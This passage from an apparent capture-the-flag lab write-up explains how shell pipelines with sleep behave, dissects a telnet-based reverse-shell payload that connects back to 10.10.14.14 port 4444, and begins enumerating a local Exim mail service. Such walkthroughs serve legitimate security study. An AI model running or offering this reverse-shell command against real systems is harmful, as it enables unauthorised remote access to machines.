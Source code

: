 For example:

```

$ time sleep 3 | sleep 3

real    0m3.004s
user    0m0.005s
sys     0m0.001s

```

Since `sleep` doesn’t wait to read from stdin, the second command starts immediately, and both finish about the same time.

If the second command finishes before the initial `sleep`, it still waits for the `sleep` to finish. So something like `sleep 3 | pwd` will print the working directory immediately, and then wait for the sleep to finish:

```

$ time sleep 3 | pwd
/home/df

real    0m3.004s
user    0m0.003s
sys     0m0.002s

```

So in this payload, it’s using sleep to keep the payload running for some minimum amount of time.

Looking at the rest of the command:

```

(sleep 4054|telnet 10.10.14.14 4444|while : ; do sh && break; done 2>&1|telnet 10.10.14.14 4444 >/dev/null 2>&1 &)

```

Next comes telnet back to me piped into a while true (`:` is true in a shell), until the `sh` returns success, in which case it breaks, sends stderr to stdout, and pipes that back into telnet back to me. The handler in Metasploit must be smart enough to handle those two different telnet connections on the same port.

### Exim

#### Enumeration

I noticed that the box was listening on port 25 on localhost:

```

djmardov@irked:/dev/shm$ netstat -antp | grep ":25"
(Not all processes could be identified, non-owned process info
 will not be shown, you would have to be root to see it all.)
tcp        0      0 127.0.0.1:25            0.0.0.0:*               LISTEN      -               
tcp6       0      0 ::1:25                  :::*                    LISTEN      -  

```

